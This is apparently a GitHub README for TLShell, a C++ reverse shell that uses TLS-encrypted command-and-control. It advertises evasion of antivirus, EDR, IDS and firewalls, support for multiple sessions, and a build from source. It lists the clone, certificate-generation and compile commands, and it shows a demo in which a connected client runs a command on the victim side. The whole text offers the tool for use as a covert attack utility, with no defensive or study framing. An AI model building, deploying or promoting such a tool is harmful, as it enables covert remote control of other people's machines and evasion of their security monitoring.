


# TLShell
## An encrypted covert reverse shell
<!-- DESCRIPTION -->
## Description:

Traditional reverse shells send data in plaintext, making them vulnerable to detection or interception by network monitoring tools, intrusion detection systems (IDS), or firewalls. With TLS encryption, however, the communication between the attacker and the target machine is encrypted, ensuring confidentiality and reducing the risk of detection by security tools that inspect unencrypted traffic.

<!-- FEATURES -->
## Features:

- Undetectable by most AV/EDR solutions

- Multi-session support

- Written in C++

- Encrypted C&C

**Important: Replace hardcoded certificate in client code with your own**

<!-- INSTALLATION -->
## Installation:
    sudo apt update
    sudo apt install openssl mingw-w64 libssl-dev
    git clone https://github.com/nikolas-trey/TLShell.git
    cd TLShell/
    openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 36500 -nodes
    g++ server.cpp -o server -lssl -lcrypto
    g++ client.cpp -o client -lssl -lcrypto


## Demo:
```
nikolas-trey@localhost:~/Projects/TLShell$ sudo ./server 443
Server listening on port 443...

Commands:
  /list                      - list clients
  /switch <id>               - set active session
  /broadcast <text>          - send to all clients
  /kick <id>                 - disconnect a client
  /help                      - show this help
  /exit                      - shutdown server
Typing anything else sends it to the active session.
> 
> [server] Client #1 connected from 127.0.0.1:38194
> id
> 
[1 127.0.0.1:38194] uid=1000(nikolas-trey) gid=1000(nikolas-trey) groups=1000(nikolas-trey),3(sys),981(rfkill),998(wheel)

> 
```

## Results:


*Image 1: Results for Linux.*


*Image 2: Results for Windows.*

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.
